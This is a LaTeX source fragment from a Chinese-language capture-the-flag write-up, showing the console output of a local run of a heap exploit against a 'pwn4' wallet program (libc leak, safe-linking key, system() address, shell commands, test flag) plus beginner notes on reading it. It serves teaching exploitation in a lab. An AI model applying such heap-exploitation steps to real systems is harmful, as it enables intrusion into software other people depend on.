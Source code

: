\documentclass[10pt,a4paper]{article}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{\texorpdfstring{9.1 本地（\texttt{./\allowbreak{}flag.\allowbreak{}txt} 放假的
flag）}{9.1 本地（./flag.txt 放假的 flag）}}\label{ux672cux5730.flag.txt-ux653eux5047ux7684-flag}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py
[x] Starting local process '/home/kzzz/Documents/code/ctf/sunshine/pwn4/ld-linux-x86-64.so.2'
[+] Starting local process '/home/kzzz/Documents/code/ctf/sunshine/pwn4/ld-linux-x86-64.so.2': pid 3544551
[+] unsorted bin head : 0x7fb8b5a03b20
[+] libc base         : 0x7fb8b5800000
[+] safe-linking key  : 0x555569c11
[+] libc fingerprint  : Ubuntu glibc 2.39 (all GOT entries match)
[+] system() = 0x7fb8b5858740
[+] Deposited 8 bytes. New balance: 8      ← ✶ 程式印的（Deposit 成功）

--- MAIN MENU ---                          ← ✶ 程式又跑了一輪選單
1) Open Wallet
2) Deposit (write to ledger)
3) Withdraw (read from ledger)
4) Transfer
5) Close Wallet
6) List Wallets
0) Exit
>>> sun{LOCAL_TEST_FLAG}                   ← 從這裡開始是我們的 shell 指令輸出
total 2500
drwxr-xr-x  3 kzzz kzzz    4096 Sep 28 01:03 .
... （ls -la 的其餘行省略）
uid=1001(kzzz) gid=1001(kzzz) groups=1001(kzzz),65534(nobody)
DONE

FLAG: sun{LOCAL_TEST_FLAG}
[*] Stopped process '/home/kzzz/Documents/code/ctf/sunshine/pwn4/ld-linux-x86-64.so.2' (pid 3544551)
\end{Verbatim}

\begin{quote}
※提示 \textbf{新手最容易以為「我跑壞了」的四件事}： 1. 開頭那兩行
\texttt{{[}x{]}\ \allowbreak{}Starting\ \allowbreak{}local\ \allowbreak{}process\ \allowbreak{}...} /
\texttt{{[}+{]}\ \allowbreak{}Starting\ \allowbreak{}local\ \allowbreak{}process\ \allowbreak{}...:\allowbreak{}\ \allowbreak{}pid\ \allowbreak{}NNNN} 是
\textbf{pwntools} 印的（每次 pid、位址都不同），不是程式輸出。 2.
\texttt{{[}+{]}\ \allowbreak{}Deposited\ \allowbreak{}8\ \allowbreak{}bytes.\allowbreak{}\ \allowbreak{}New\ \allowbreak{}balance:\allowbreak{}\ \allowbreak{}8} 與整段
\texttt{MAIN\ \allowbreak{}MENU} 是\textbf{程式自己}印的 （\texttt{Deposit} 的訊息 +
選單迴圈又跑一輪）。 3. \texttt{DONE}
後面若出現奇怪的空白／殘留字元是正常的（free 過的 chunk
內還留著舊資料）。 4.
恆等式檢查：\texttt{unsorted\ \allowbreak{}-\allowbreak{}\ \allowbreak{}libc\ \allowbreak{}=\ \allowbreak{}0x203b20}
（\texttt{0x7fb8b5a03b20\ \allowbreak{}-\allowbreak{}\ \allowbreak{}0x7fb8b5800000}
✓）、\texttt{system\ \allowbreak{}-\allowbreak{}\ \allowbreak{}libc\ \allowbreak{}=\ \allowbreak{}0x58740}
（\texttt{0x7fb8b5858740\ \allowbreak{}-\allowbreak{}\ \allowbreak{}0x7fb8b5800000}
✓）。你的數字一定不同，但\textbf{差值}必須一樣。
\end{quote}
\end{document}
